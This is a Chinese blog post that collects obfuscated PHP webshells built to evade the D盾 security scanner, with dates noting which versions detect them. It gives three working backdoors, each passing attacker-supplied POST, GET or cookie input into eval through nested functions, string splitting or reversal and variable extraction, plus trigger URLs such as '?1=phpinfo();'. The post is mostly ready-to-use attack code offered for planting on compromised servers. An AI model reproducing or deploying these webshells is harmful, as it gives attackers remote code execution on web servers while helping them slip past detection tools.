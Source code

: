 ```yaml
---
layout: post
title: PHP WebShell [过D][更新至2019-05-09]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等.
D盾v2.1.4.9

> post ?1=phpinfo();

```
<?php

function b(){
    $a = $_POST[1];
    return $a;
}

function a(){
  eval(b());
}

a();
```

![201900509_1.php](https://cijian00.github.io/img/shell_share/20190509_1.png)


> /?1=phpinfo();(已失效 - 2.1.4.9)

```
<?php
$m=$_GET['1'];
$a=mb_substr($m,0,1);
$b=mb_substr($m,1,9999);
eval($a.$b);
?>
```

![20190419.php](https://cijian00.github.io/img/shell_share/20190419.png)



> /?jsha=phpinfo(); (已失效 - 2.1.4.8)


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


>效果图


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
